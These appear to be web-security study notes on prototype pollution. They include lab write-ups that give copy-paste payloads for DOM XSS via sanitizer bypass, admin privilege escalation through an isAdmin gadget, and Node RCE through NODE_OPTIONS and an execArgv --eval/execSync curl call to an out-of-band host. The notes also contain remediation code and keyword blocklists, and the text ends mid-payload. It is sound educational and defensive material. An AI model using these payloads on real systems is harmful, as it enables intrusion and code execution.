* Constructed payloads that include harmless fragments which, after the sanitization process, yield `__proto__` (or `constructor.prototype`) on the resulting parsed object. Examples used in the lab:

  ```
  /?__pro__proto__to__[foo]=bar
  /?__pro__proto__to__.foo=bar
  /?constconstructorructor[protoprototypetype][foo]=bar
  /?constconstructorructor.protoprototypetype.foo=bar
  ```
* After loading one of those payloads, checking `Object.prototype` in the console showed:

  ```
  Object.prototype.foo === "bar"
  ```

  — prototype pollution succeeded.

### 4. Identifying and abusing the gadget

* `searchLogger.js` checks `config.transport_url` and, if set, appends a script element:

  ```js
  const script = document.createElement('script');
  script.src = config.transport_url;
  document.head.appendChild(script);
  ```
* Using the prototype pollution vector, injected `transport_url` into the global `config` object:

  ```
  /?__pro__proto__to__[transport_url]=foo
  ```
* Observed in Elements tab that a `<script src="foo">` element was added.

### 5. Proof of concept — DOM XSS

* Replaced `foo` with a `data:` URL that executes JS:

  ```
  /?__pro__proto__to__[transport_url]=data:,alert(1);
  ```
* After loading that URL the browser immediately executed `alert(1)` and the lab was solved.

---

## Exact PoC payloads (copy/paste)

* Prototype pollution proof:

  ```
  /?__pro__proto__to__[foo]=bar
  ```

  Then in Console:

  ```js
  Object.prototype.foo // => "bar"
  ```
* Gadget + XSS PoC:

  ```
  /?__pro__proto__to__[transport_url]=data:,alert(1);
  ```

---

## Why this works (technical root cause)

1. The application attempts to sanitize dangerous object keys with a blacklist (e.g. detect and remove `__proto__`, `constructor`, `prototype`, etc.).
2. The sanitization is applied in a non-recursive fashion or only to specific substrings, which allows an attacker to submit fragmented tokens that bypass the blacklist initially but are reconstructed into dangerous tokens by the deparam/parsing logic.
3. The polluted prototype (`Object.prototype`) is used indirectly because `config` is read/accessed via property lookups that ultimately inherit from `Object.prototype`.
4. `searchLogger.js` uses `config.transport_url` as a URL for a dynamically created `<script>` tag — a sink that executes script from attacker-controlled data.

---

## Impact

* Client-side prototype pollution leading to **arbitrary JavaScript execution** in victims' browsers (DOM-based XSS).
* Attack scope: any user who visits a URL containing the crafted query string can have attacker JS executed in their context. This allows session theft, account impersonation, CSRF escalation, and similar client-side impact.
* Because the control is on client side, server logs/filters might not detect the attack easily unless query strings are validated server-side.

---

## Remediation & mitigations

### Immediate application fixes

1. **Fix the sanitizer to be robust and recursive**:

   * Sanitize keys recursively at every depth — reject or remove any key that equals `__proto__`, `constructor`, `prototype`, or any other dangerous token at any level.
   * Better: use a whitelist approach (allowed keys) rather than blacklist when possible.
   * Example recursive sanitizer (conceptual):

     ```js
     const BLOCKLIST = new Set(['__proto__','prototype','constructor']);

     function sanitizeKeys(obj) {
       if (!obj || typeof obj !== 'object') return obj;
       for (const key of Object.keys(obj)) {
         if (BLOCKLIST.has(key)) {
           delete obj[key];
           continue;
         }
         // if the key contains dangerous fragments (or normalized dangerous), reject
         if (typeof key === 'string' && /__proto__|prototype|constructor/.test(key)) {
           delete obj[key];
           continue;
         }
         // recurse
         sanitizeKeys(obj[key]);
       }
     }
     ```
   * IMPORTANT: sanitize **before** any operation that could interpret property names (e.g. before merging into global config / before converting bracket notation to nested objects).

2. **Avoid using user-controlled strings as property access paths** without strict validation. Don’t assume sanitized keys cannot be reconstructed.

3. **Stop relying on inherited properties** for security checks — use `Object.create(null)` for clean dictionaries if you must map user-provided keys to values:

   ```js
   const safeMap = Object.create(null);
   safeMap[userKey] = value; // no prototype chain
   ```

4. **Avoid dynamic insertion of scripts** using attacker-influenced URLs. If dynamic loading is required:

   * Validate that `transport_url` is an expected whitelisted domain or path.
   * Use safe loader patterns and strict checks (protocol, host, path).
   * Consider not using `innerHTML`/`src` with untrusted content.

### Additional defenses

* **Content Security Policy (CSP)**: add a strict policy to block inline scripts and untrusted sources (e.g., `script-src 'self'`).
* **Use `Object.freeze(Object.prototype)`** server-side in app initialization if practical (note: this has app-wide effects and must be tested).
* **Use libraries that prevent prototype pollution**, or use secure parsing libraries for query strings that do not interpret `__proto__`/prototype keys specially.
* **Server-side validation**: canonicalize and validate query parameters on the server before delivering them to the client.

---

## Suggested code-level patches (examples)

**Make parse/sanitizer recursive and reject fragments:**

```js
function isDangerousKey(key) {
  return typeof key === 'string' && /(^|[^a-zA-Z0-9_$])(?:__proto__|prototype|constructor)([^a-zA-Z0-9_$]|$)/.test(key);
}

function deepSanitize(obj) {
  if (!obj || typeof obj !== 'object') return;
  for (const k of Object.keys(obj)) {
    if (isDangerousKey(k)) {
      delete obj[k];
      continue;
    }
    deepSanitize(obj[k]);
  }
}
```

**Use safe maps to store user keys:**

```js
const config = Object.create(null); // no prototype
// when copying user object:
for (const k of Object.keys(userObj)) {
  if (!isDangerousKey(k)) config[k] = userObj[k];
}
```

---

## Detection & testing

* Test typical payloads:

  * `/?__proto__[pwn]=1`
  * `/?__pro__proto__to__[pwn]=1`
  * `/?constconstructorructor.protoprototypetype.foo=bar`
* After loading the page, check in Console:

  ```js
  Object.prototype.pwn // => should be undefined in patched app
  ```
* Check for injected `<script>` elements (Elements tab) and inspect their `src`.

---

## Proof for report

* Vulnerability: Prototype pollution via non-recursive key sanitization.
* Exploit: set `config.transport_url` via polluted prototype and force script injection.
* PoC URL:

  ```
  https://<target>/index.html?__pro__proto__to__[transport_url]=data:,alert(1);
  ```

  (replace `<target>` with the lab host)
* Evidence: `alert(1)` executed when loading the PoC URL and a `<script src="data:,alert(1);">` element was inserted into the DOM.

---

## Notes & recommendations for triage

* Severity: **High** — exploitable DOM XSS impacting all visitors who visit crafted URL.
* Priority: **Fix sanitizer and stop using user-controllable values for `script.src`** immediately.
* Verify fix by running the PoC and broader fuzz tests for prototype pollution (including fragmented tokens and bracketed notations).
* Consider a code review for other code paths that may read properties via prototype inheritance or add script elements from user data.

---


# Prototype-pollution gadgets: fetch() and Object.defineProperty()

## 1) fetch() gadget — summary

* **Why it’s a gadget:** `fetch(url, options)` uses properties from the `options` object (e.g. `headers`, `method`, `body`). If a property (say `headers`) is *not an own property* of `options`, JS lookup falls back to `Object.prototype`. An attacker who can pollute `Object.prototype.headers` (or other option keys) can influence requests and server responses — and those responses may be reflected into the DOM (causing DOM XSS).

* **Typical vulnerable pattern:**

  ```js
  // site code
  const opts = {};                 // no own headers
  fetch('/my-products.json', opts) // opts.headers is undefined -> inherits from Object.prototype.headers
    .then(r => r.json())
    .then(data => {
      message.innerHTML = `Logged in as <b>${data['x-username']}</b>`;
    });
  ```

* **PoC payload (lab):**

  ```
  ?__proto__[headers][x-username]=
  ```

  If server uses that header to populate `x-username` in the returned JSON, `message.innerHTML` will render attacker HTML -> DOM XSS.

* **Variant:** You can control any undefined option used by fetch (e.g. `body`, `mode`, `credentials`) via prototype pollution:

  ```
  ?__proto__[body]=...   // or ?constructor.prototype[headers][x-username]=...
  ```

## 2) Object.defineProperty() gadget — summary

* **Why it’s a gadget:** `Object.defineProperty(target, name, descriptor)` uses `descriptor.value` if present. If the code uses a `descriptor` object that *lacks an own `value` property* (e.g. `{ configurable:false, writable:false }`) and the descriptor object inherits `value` via `Object.prototype.value`, the attacker can supply `Object.prototype.value` via prototype pollution and make the defined property receive attacker data.
* **Typical vulnerable pattern:**

  ```js
  const desc = { configurable:false, writable:false }; // no own 'value'
  Object.defineProperty(obj, 'gadget', desc);
  // obj.gadget will be set to desc.value — which could resolve via prototype chain
  ```
* **PoC payload (lab):**

  ```
  ?__proto__[value]=
  ```

  If subsequent code defines properties using such descriptors, `obj.gadget` may be assigned the attacker-controlled `value`.

## 3) Why naive defenses fail

* **String-strip sanitizers** (e.g. `key = key.replaceAll('constructor','')`) can be bypassed by fragmenting or obfuscating (`__pro__proto__to__`, `constconstructorructor...`) so that post-parse keys reconstruct forbidden tokens.
* **Setting a property on an instance** (e.g. `const opts = {}; opts.headers = opts.headers || {};`) doesn’t stop other code that reads `options.headers` via inheritance — especially if the code expects keys to possibly be absent.
* **defineProperty without explicit value** is ineffective — failing to set `descriptor.value` leaves an attacker a channel via `Object.prototype.value`.

## 4) Reproduction steps (lab-style)

1. Open target page in browser.
2. Append PoC to URL:

   ```
   https://<target>/page?__proto__[headers][x-username]=
   ```
3. Reload page. If vulnerable, `alert(1)` will fire (or HTML will be reflected in the DOM).
4. For `defineProperty` gadget:

   ```
   https://<target>/page?__proto__[value]=
   ```

## 5) Detection snippets (run in console)

* Check for suspicious inherited properties:

```js
['headers','value','__proto__','constructor','prototype'].forEach(k=>{
  if (Object.prototype.hasOwnProperty(k)) console.warn('polluted', k, Object.prototype[k]);
});
```

* Quick cleanup (lab/dev only):

```js
delete Object.prototype.headers;
delete Object.prototype.value;
```

## 6) Concrete, reliable mitigations (do these)

1. **Never pass user objects directly into sensitive browser APIs.** Build a safe options object from *own* properties only — and whitelist keys.

   ```js
   function buildSafeFetchOptions(user) {
     const safe = {};
     if (!user || typeof user !== 'object') return safe;
     const allowed = ['method','headers','body','credentials','mode','cache'];
     for (const k of Object.keys(user)) { // own properties only
       if (allowed.includes(k)) safe[k] = user[k];
     }
     return safe;
   }
   // usage:
   fetch('/endpoint', buildSafeFetchOptions(userProvided));
   ```
2. **When using `Object.defineProperty`, always provide an explicit `value`** (or verify descriptor has own `value`):

   ```js
   Object.defineProperty(obj, 'gadget', {
     configurable: false,
     writable: false,
     value: safeValue // explicit
   });
   ```

   Or validate descriptors:

   ```js
   if (!Object.prototype.hasOwnProperty.call(descriptor, 'value')) { reject(); }
   ```
3. **Use `Object.create(null)` for dictionaries of untrusted keys** so they have no `prototype`:

   ```js
   const safeMap = Object.create(null);
   safeMap[userKey] = userVal;
   ```
4. **Sanitize and canonicalize after parsing (recursively)** — reject whole keys like `__proto__`, `constructor`, `prototype` rather than stripping substrings. Example deep-sanitizer:

   ```js
   const DANGEROUS = new Set(['__proto__','constructor','prototype']);
   function deepSanitize(obj){
     if (!obj || typeof obj !== 'object') return;
     for (const k of Object.keys(obj)){
       if (DANGEROUS.has(k)) { delete obj[k]; continue; }
       deepSanitize(obj[k]);
     }
   }
   // call after you parse query strings into objects
   ```
5. **Prefer whitelisting** of parameter names when possible, rather than blacklists or substring stripping.
6. **Add defense-in-depth:** strict CSP (`script-src 'self'`), logging/alerts when prototype pollution is detected, and server-side validation of headers/inputs.

## 7) Suggested short remediation text for a ticket

 **Issue:** Client-side prototype pollution allows attacker to set `Object.prototype.headers`/`Object.prototype.value` leading to DOM XSS via `fetch()` and `Object.defineProperty()` usage.

**Impact:** DOM XSS — remote attacker can execute arbitrary JS in victim browsers.

**Fix:** Do not pass user-controlled objects directly to `fetch()` or `defineProperty`. Build options objects from `Object.keys()` (own props only) with whitelisted keys; set explicit `descriptor.value` when using `Object.defineProperty()`; use `Object.create(null)` for untrusted maps; add recursive sanitizer and CSP.

**PoC:** `?__proto__[headers][x-username]=` and `?__proto__[value]=`.

---


# Server-Side Prototype Pollution (SSPP)
### Introduction

* **Problem:** Detecting **server-side prototype pollution (SSPP)** is difficult, since even legitimate detection attempts can disrupt or break server functionality.
* **Goal of post:** Show techniques to detect prototype pollution safely, using harmless requests that subtly change responses without causing damage.
* **Practice:** There are **Web Security Academy labs** available for hands-on testing.

---

### What is Server-Side Prototype Pollution?

* **Definition:**
  A vulnerability in JavaScript where an attacker manipulates **object prototypes** by injecting properties through unsafe merges.

* **Cause:**
  Happens when a JavaScript library **recursively merges objects** without sanitizing property keys.

* **Impact:**

  * Attacker can modify global prototypes (e.g., `Object.prototype`).
  * Can control **"gadget" properties** that are later used in sensitive sinks.
  * Depending on the sink, this may escalate to **server-side arbitrary code execution**.

---

### Prototypal Inheritance Recap

* JavaScript uses **prototypal inheritance**.
* Objects inherit from a prototype (an object itself).
* Inheritance continues up the **prototype chain** until reaching `null` (the root).
* Nearly all objects inherit from `Object.prototype` through children like `Array`, `String`, or `Number`.


```js
let obj = {a:1, b:2};
Object.prototype.c=3;
console.log(obj.c);//3
```

## JSON.parse()

One common cause of prototype pollution is `JSON.parse()`. When you use `JSON.parse()` the `__proto__` key behaves like a regular own property (not the getter/setter you'd normally expect), which means a subsequent unsafe merge operation can interpret it as a prototype setter and pollute global prototypes.

**Example:**

```js
let obj = {a: 1};
obj.__proto__ === Object.prototype // true
obj.hasOwnProperty('__proto__'); // false

let json = '{"__proto__":"WTF"}';
JSON.parse(json).hasOwnProperty('__proto__'); // true!

let obj2 = JSON.parse('{"a":123,"b":123,"__proto__":{"pollute":true}}');
// If this object is merged unsafely, it can pollute Object.prototype
```

---

## Vulnerable libraries

A likely source of prototype pollution is libraries that merge objects (for example, Lodash's `merge()` method). If you control `__proto__` in the source object and a vulnerable merge is performed, the prototype can be polluted.



**Vulnerable merge (conceptual):**

```js
_.merge(target, source);
// if source.__proto__ exists and merge doesn't sanitize keys, Object.prototype may be modified
```

---

## Impact of prototype pollution

Prototype pollution can change application configuration and behavior, or even lead to remote code execution (RCE). Notable public incidents include vulnerabilities in Kibana and the Blitz framework that led to RCE.

---

## The DoS problem

Unlike client-side pollution (where a page refresh removes your changes), server-side prototype pollution persists for the lifetime of the Node process. If you break core functionality you might cause DoS for all users. Some exploit vectors can even crash the Node process. Often the only way to undo changes is to restart the Node process. This makes detection tricky: we need non-destructive techniques that can be turned on/off and still produce observable differences.

---

# Detection methods that cause DoS

> **Warning:** The methods in this section can be destructive and may cause DoS. Do **not** use these on live systems you do not own.

### Encoding

Polluting encoding-related properties (used by Node's `StringDecoder`) can crash the Node process when an invalid charset is used.

Relevant code snippet (conceptual):

```js
if (options && options.encoding) {
  this.decoder = new StringDecoder(options.encoding);
  this.encoding = options.encoding;
}
```

### Constructor

Modifying the `Object` constructor methods (for example `Object.keys`) can break libraries that expect them to be functions. This may throw exceptions and partially break the app.

Example: if `Object.keys` becomes a string, calls like `Object.keys(parameters).sort()` will throw.

### Expect

Controlling the `expect` header can cause the server to respond with `417 Expectation Failed`. Tracing where the property is read can reveal the server-side code paths.

You can trace reads by temporarily making an inherited getter:

```js
Object.defineProperty(Object.prototype, 'expect', {
  get(){
    console.trace("Expect!!!");
    return 1337;
  }
});
```

### Request body overwrite (XSS)

When Express apps use `res.send(obj)` with `body-parser` JSON, polluted properties such as `_body` can cause the server to send HTML instead of JSON, potentially creating stored XSS. This is destructive and always serves the payload, so it's not suitable for safe detection.

Example (conceptual):

```js
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
  _.merge({}, req.body);
  res.send(req.body); // if _body polluted -> HTML sent
});
```

---

# Safe detection methods for manual testers

These are non-destructive or minimally intrusive techniques suitable for manual testing. Some require reflection to confirm success.

## Parameter limit

Express has a `parameterLimit` option (from the `qs` lib) which controls the max number of query parameters. Polluting this to a low value can cause query params to be dropped — observable without breaking core behavior if used carefully.

Relevant code:

```js
parameterLimit: typeof opts.parameterLimit === 'number' ? opts.parameterLimit : defaults.parameterLimit,
```

## Ignore query prefix

`ignoreQueryPrefix` in `qs` allows question marks in parameter names. Setting this via prototype pollution can change parsing behavior.

Relevant code:

```js
ignoreQueryPrefix: opts.ignoreQueryPrefix === true,
```

## Allow dots

`allowDots` lets dots in parameter names create nested objects. Polluting this option may allow exotic parameter-based attacks or exploit chains.

Relevant code:

```js
allowDots: typeof opts.allowDots === 'undefined' ? defaults.allowDots : !!opts.allowDots,
```

## Content type (charset)

By polluting content-type/charset handling, Express/`body-parser` may parse JSON using an attacker-controlled charset (e.g. UTF-7), letting you observe differences in reflected payloads.

Relevant `body-parser` snippet:

```js
function getCharset (req) {
  try {
    return (contentType.parse(req).parameters.charset || '').toLowerCase()
  } catch (e) {
    return undefined
  }
}
```

Node can drop header fields when the destination already has a property (even inherited), which explains why a polluted property can override the real header.

---

## Safe automated detection methods

The Burp Suite extension described in this research automates the following safer techniques.

### JSON spaces

Express has a `json spaces` setting that controls whitespace when serializing JSON. Polluting it alters spacing in JSON responses (non-destructive and does not break functionality).

Snippet:

```js
var spaces = app.get('json spaces');
app.set = function set(setting, val) {
  if (arguments.length === 1) {
    // app.get(setting)
    return this.settings[setting];
  }
  ...
}
```

**Note:** This specific issue was patched in Express > 4.17.3.

## Exposed headers (CORS)

Polluting `exposedHeaders` in CORS configuration influences `Access-Control-Expose-Headers` in responses. This is a subtle reflection and a good detection vector when CORS is present.

Conceptual snippet:

```js
function configureExposedHeaders(options) {
  var headers = options.exposedHeaders;
  if (!headers) return null;
  if (headers.join) headers = headers.join(',');
  if (headers && headers.length) {
    return { key: 'Access-Control-Expose-Headers', value: headers };
  }
  return null;
}
```

## Status

You can pollute a `status` property that is later used by `http-errors` or similar modules. If the polluted status is used, the server will return the chosen status code — a clear non-destructive signal if you pick an obscure code (e.g., 510).

Snippet (conceptual):

```js
if (typeof status !== 'number' ||
    (!statuses.message[status] && (status < 400 || status >= 600))) {
  status = 500;
}
```

## OPTIONS

The router may conditionally include `HEAD` in allowed methods depending on `this.methods.head`. A polluted property can change the list produced by an `OPTIONS` response — another subtle indicator.

```js
if (this.methods.get && !this.methods.head) {
  methods.push('head');
}
```

## JSON reflection techniques

Two reflection-based probes:

1. **Direct `__proto__` reflection:** send keys like `__proto__` and `__proto__x`. If `__proto__x` is reflected but `__proto__` is not, suspect reflection-related behaviour that could be exploited.

2. **Excluded properties technique:** Pollute prototype with `a`, then send `{"a": "own", "b": "own"}`. If `b` is reflected but `a` is not (because `a` is inherited), that indicates `in`-based merging and prototype pollution.

Relevant merge behaviour:

```js
function assignMergeValue(object, key, value) {
  if ((value !== undefined && !eq(object[key], value)) ||
      (value === undefined && !(key in object))) {
    baseAssignValue(object, key, value);
  }
}
```

## Immutable prototype

Assigning a primitive to prototype properties is often a no-op, while assigning an object to certain prototype levels throws. This difference can be used to detect pollution:

```js
({}).__proto__.__proto__ = {}   // may throw type exception
({}).__proto__.__proto__ = "x"  // no-op, does not throw
```

This technique helps detect whether assignment into the prototype actually happened.

## OAST (Out-Of-Band Application Security Testing)

Using sinks that interact out-of-band (DNS) — e.g., CPU/process related sinks — you can craft a payload that causes a DNS interaction if a polluted prototype controls process args or environment. Example payload (conceptual):

```json
{
  "__proto__": {
    "argv0": "node",
    "shell": "node",
    "NODE_OPTIONS": "--inspect=id.oastify.com"
  }
}
```

To evade scrapers, double-quote obfuscation works cross-platform:

```json
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=id\"\".oastify\"\".com"
  }
}
```

---

## Detecting JavaScript engines

By sending properties with names like `toString`, `valueOf`, `hasOwnProperty`, and comparing responses to `xtoString`, `xvalueOf`, `xhasOwnProperty`, you can infer whether the remote engine is JavaScript and which engine it may be (e.g. Node V8, Rhino, etc.). Some vendors can accidentally reflect native code (e.g., `constructor`), revealing engine-specific signatures.

---

## Debugging Node applications

If you have access to the source, run Node with `--inspect` or `--inspect-brk` and attach Chrome DevTools via `chrome://inspect`. `--inspect-brk` pauses at start so you can step through initializations that may cause pollution.

---

## Preventing server-side prototype pollution

### Use `Map` / `Set`

Prefer `Map` and `Set` for safes lookups that don't inherit `Object.prototype`:

```js
let options = new Map();
options.set('foo', 'bar');
console.log(options.get('foo')); // bar
```

### Deleting `__proto__`

Node has a flag `--disable-proto=delete` to remove `__proto__` access. This is defense-in-depth (doesn't prevent constructor.prototype attacks).

### Null prototype objects

Create objects that do not inherit from `Object.prototype`:

```js
let optionsObject = Object.create(null);
// or
let optionsObject = { __proto__: null };
```

---
Here’s a detailed, note-friendly breakdown of **why server-side prototype pollution (SSPP) is harder to detect** than client-side:

---

# Why SSPP is More Difficult to Detect

## 1. No Source Code Access

* **Client-side**: You can read the JavaScript directly in the browser (view-source, DevTools, deobfuscation tools).
* **Server-side**: Code is hidden on the remote server. You can’t see which libraries, merges, or sinks are present.
* **Impact**: You’re “blind” — no way to enumerate gadgets or confirm pollution except by indirect effects.

---

## 2. No Developer Tools

* **Client-side**: You can open DevTools, inspect objects, and verify if pollution succeeded (`{}.polluted`).
* **Server-side**: You can’t attach a debugger or console.log the state of objects in the running server.
* **Impact**: You must rely on indirect behavioral changes (headers, whitespace, status codes, etc.) to confirm pollution.

---

## 3. The DoS Problem

* Many probes that prove pollution actually **break the app**.
* Example: Polluting `encoding` → invalid charset → Node crash.
* On a shared server, this means taking down the app for everyone.
* **Impact**:

  * High risk when testing production.
  * Hard to escalate a finding into a working exploit without collateral damage.

---

## 4. Pollution Persistence

* **Client-side**: Refresh = clean state. Pollution is ephemeral.
* **Server-side**: Once polluted, the prototype stays polluted until the Node process restarts.
* **Impact**:

  * Mistakes are permanent during that server lifetime.
  * You can’t easily “reset” the environment if you mess up.
  * Safe repeated probing becomes difficult.

---
# Detecting Server-Side Prototype Pollution via Polluted Property Reflection

## 1. How reflection works

* In JavaScript, a `for...in` loop **iterates over all enumerable properties**, including those **inherited from the prototype chain**.
* Built-in properties (from native constructors like `Object`, `Array`) are **non-enumerable**, so they don’t show up.
* But if an attacker pollutes `Object.prototype`, the polluted property **will appear** during iteration.

---

### Example: Object

```js
const myObject = { a: 1, b: 2 };

// pollute prototype
Object.prototype.foo = 'bar';

// check if foo is own property
myObject.hasOwnProperty('foo'); // false

// iterate over properties
for (const key in myObject) {
  console.log(key);
}
// Output: a, b, foo
```

---

### Example: Array

```js
const myArray = ['a','b'];

// pollute prototype
Object.prototype.foo = 'bar';

// iterate over array keys
for (const key in myArray) {
  console.log(key);
}
// Output: 0, 1, foo
```

👉 Arrays are just objects with numeric property keys. After the numeric indices, the loop also hits inherited properties.

---

## 2. Why this matters for detection

* If an application **loops through object keys** (via `for...in`) and then:

  * Reflects them back in a JSON response, OR
  * Renders them dynamically into HTML
* → Then polluted properties will “leak” into responses.

This becomes a **detection method** for SSPP.

---

## 3. Practical testing scenario

* Many APIs accept JSON in **POST** or **PUT** requests.
* Often, the server merges incoming data into an existing object (e.g., user profile).
* If vulnerable, polluted prototype properties will appear in the **server’s response object**.

### Example request (polluting with `foo`)

```http
POST /user/update HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/json

{
    "user":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "__proto__":{
        "foo":"bar"
    }
}
```

### Example vulnerable response

```http
HTTP/1.1 200 OK
Content-Type: application/json

{
    "username":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "foo":"bar"
}
```

👉 The injected `"foo":"bar"` shows up even though it wasn’t in the submitted object — confirming **server-side prototype pollution**.

---

## 4. Exploitation potential

* Once confirmed, the next step is **finding gadgets**:

  * Features that merge user input into internal objects (e.g., user profile, session object).
  * Properties that affect security or logic (e.g., `isAdmin`, `role`, `permissions`).
* If attacker-controlled polluted properties are trusted, this can lead to:

  * **Privilege escalation** (e.g., `admin:true`)
  * **Logic bypass**
  * **Persistent injection into JSON/HTML responses** (potential XSS)

---

✅ **Key takeaway for notes**:
Reflection via `for...in` is a simple but powerful way to **detect SSPP**. If polluted properties appear in JSON or HTML responses, the app is vulnerable. From there, attackers look for “gadgets” — places where polluted properties trigger dangerous behavior.

---


# Scanning for server-side prototype pollution sources

Server-Side Prototype Pollution Scanner extension for Burp Suite, which enables you to automate this process. The basic workflow is as follows:

- Install the Server-Side Prototype Pollution Scanner extension from the BApp Store and make sure that it is enabled. For details on how to do this, see Installing extensions from the BApp Store
- Explore the target website using Burp's browser to map as much of the content as possible and accumulate traffic in the proxy history.
- In Burp, go to the Proxy > HTTP history tab.
- Filter the list to show only in-scope items.
- Select all items in the list.
- Right-click your selection and go to Extensions > Server-Side Prototype Pollution Scanner > Server-Side Prototype Pollution, then select one of the scanning techniques from the list.
- When prompted, modify the attack configuration if required, then click OK to launch the scan.

In Burp Suite Professional, the extension reports any prototype pollution sources it finds via the `Issue activity` panel on the `Dashboard and Target` tabs. If you're using Burp Suite Community Edition, you need to go to the Extensions > Installed tab, select the extension, then monitor its Output tab for any reported issues.
Note

## Bypassing input filters for server-side prototype pollution

Websites often attempt to prevent or patch prototype pollution vulnerabilities by filtering suspicious keys like `__proto__`. This key sanitization approach is not a robust long-term solution as there are a number of ways it can potentially be bypassed. For example, an attacker can:

- Obfuscate the prohibited keywords so they're missed during the sanitization. For more information, see Bypassing flawed key sanitization.
- Access the prototype via the constructor property instead of `__proto__`. For more information, see Prototype pollution via the constructor

Node applications can also delete or disable `__proto__` altogether using the command-line flags `--disable-proto=delete` or `--disable-proto=throw` respectively. However, this can also be bypassed by using the constructor technique. 

## Identify a prototype pollution source

In Repeater, add a new property to the JSON with the name `__proto__`, containing an object with a `json spaces` property.

```json
"__proto__": {
    "json spaces": 10
}
```

Send the request.
In the **Response** panel, switch to the **Raw** tab. Observe that the JSON indentation appears to be unaffected.

Modify the request to try polluting the prototype via the `constructor` property instead:

```json
"constructor": {
    "prototype": {
        "json spaces": 10
    }
}
```

Resend the request.
In the **Response** panel, go to the **Raw** tab. This time, notice that the JSON indentation has increased based on the value of your injected property. This strongly suggests that you have successfully polluted the prototype.

### Identify a gadget

Look at the additional properties in the response body.
Notice the `isAdmin` property, which is currently set to `false`.

### Craft an exploit

Modify the request to try polluting the prototype with your own `isAdmin` property:

```json
"constructor": {
    "prototype": {
        "isAdmin": true
    }
}
```

Send the request. Notice that the `isAdmin` value in the response has been updated. This suggests that the object doesn't have its own `isAdmin` property, but has instead inherited it from the polluted prototype.

In the browser, refresh the page and confirm that you now have a link to access the admin panel.
Go to the admin panel and delete `carlos` to solve the lab.

# Remote code execution via server-side prototype pollution

These are concise notes you can use when writing a guide, slide, or lab instructions about turning server-side prototype pollution in Node into potential RCE.

## Goal / elevator pitch

* Show how prototype pollution on the server (Node) can lead to remote code execution by contaminating environment/config objects that later influence child process creation or command execution.
* Demonstrate detection (out-of-band callbacks) and exploitation vectors (NODE\_OPTIONS, `child_process.fork()` `execArgv`, `execSync()`).

## Key concepts to cover

* **Prototype pollution**: modifying an object's prototype so properties are inherited by other objects that don’t define those properties themselves.
* **Server-side vs client-side**: server-side pollution can influence server runtime behaviour (not just DOM).
* **Node process options and env**: `process.env`, `NODE_OPTIONS` and `execArgv` can affect how child Node processes are spawned.
* **Child process sinks**:

  * `child_process.spawn()` / `exec()` — possibilities if `shell` or arguments are influenced.
  * `child_process.fork()` — accepts `execArgv` (array of node runtime args) which can be abused with `--eval`.
  * `child_process.execSync()` — executes shell strings (potential command injection if combined with prototype pollution enabling control of inputs).

## Detection strategy (high-level)

* Use an **out-of-band (OOB)** channel (Burp Collaborator or equivalent) to detect when a polluted property is used to spawn a new process or is interpolated into a command.
* Pollute global-ish objects (e.g., `__proto__`, `constructor.prototype`, or `env`-like objects) with a value that triggers an OOB interaction when consumed as a process argument or env var.
* Watch for asynchronous requests/operations that occur *after* the request used to pollute the prototype — these may trigger the sink.

## Payload ideas / examples (sanitized)

* Pollute `NODE_OPTIONS` to add startup flags that cause a remote callback (use your OOB domain placeholder):

```json
{
  "__proto__": {
    "shell": "node",
    "NODE_OPTIONS": "--inspect=YOUR-COLLABORATOR-ID.oastify.com"
  }
}
```

* Pollute `execArgv` used by `child_process.fork()` to inject `--eval` and execute arbitrary JS:

```json
{
  "constructor": {
    "prototype": {
      "execArgv": [
        "--eval=require('<module>')"
      ]
    }
  }
}
```

> Note: these are examples to illustrate the technique; replace the placeholder with your OOB domain when testing in authorized environments.

## Exploitation flow (conceptual)

1. Identify a prototype pollution vector (an endpoint that deserializes user-supplied JSON into objects that can affect prototypes).
2. Inject a prototype property that will be used by later code paths which spawn child processes or build shell commands.
3. Trigger the code path (often asynchronous) that creates the child process — detect via OOB.
4. If you can influence `execArgv` or `NODE_OPTIONS`, escalate to executing JS (`--eval`) or changing Node startup behaviour.
5. If `execSync()` or other command-building code is present and influenced, chain to shell command execution.

## Practical tips for an author

* Emphasize **asynchronicity**: prototype pollution often affects requests processed later — the sink may be in an unrelated endpoint or background job.
* Explain differences between `__proto__` vs `constructor.prototype` pollution semantics and why some code paths only accept certain shapes.
* Show how to **sandbox** tests: use a local lab, container, or a purposely vulnerable app; never test against systems you don’t own or have authorization to test.
* Use OOB services (Burp Collaborator, oastify, etc.) to detect blind interactions — demonstrate how the callback proves the sink is being exercised.
* When demonstrating `--eval`, clearly explain the risks and show defensive mitigations instead of encouraging unauthorised exploitation.

## Mitigations to include

* Always validate and sanitize JSON input; avoid merging untrusted objects into internal config objects or prototypes.
* Freeze or seal prototypes where appropriate (`Object.freeze(Object.prototype)` is heavy-handed — explain tradeoffs).
* Avoid passing untrusted values into process startup arguments, env vars, or into child process `exec*` calls.
* Use safe child process APIs (avoid `shell: true`, validate commands/args).
* Apply principle of least privilege to services and runtime environments.

## Ethical / legal reminder

* Explicitly state that these techniques are for **defensive research, secure coding education, and authorized penetration testing only**.
* Encourage responsible disclosure to vendors/owners when vulnerabilities are discovered.

## Suggested structure for a write-up or lab

1. Intro: explain prototype pollution & server-side impact.
2. Theory: Node env, child\_process sinks, execArgv, NODE\_OPTIONS.
3. Detection demo: using OOB to discover a sink (show request → OOB callback).
4. Exploitation demo (lab): controlled example showing `execArgv` or `NODE_OPTIONS` influence causing observable effect (use sanitized placeholders and a lab environment).
5. Mitigations and best practices.
6. Further reading/resources and responsible disclosure guidance.

## Prototype Pollution Exploit
### Identify a Prototype Pollution Source

In Repeater, add a new property to the JSON with the name `__proto__`, containing an object with a json spaces property:
```json
"__proto__": {
    "json spaces": 10
}
```

- Send the request.

- In the Response panel, switch to the Raw tab. Notice that the JSON indentation has increased based on the value of your injected property. This strongly suggests that you have successfully polluted the prototype.


### Probe for Remote Code Execution

- In the browser, navigate to the admin panel and observe that there's a button for running maintenance jobs.

- Click the button and observe that this triggers background tasks that clean up the database and filesystem. This is a classic example of functionality that may spawn Node.js child processes.

- Try polluting the prototype with a malicious execArgv property that adds the --eval argument to the spawned child process. Use this to call the execSync() sink, passing in a command that triggers an interaction with the public Burp Collaborator server. For example:

  ```json
  "__proto__": {
      "execArgv": [
          "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
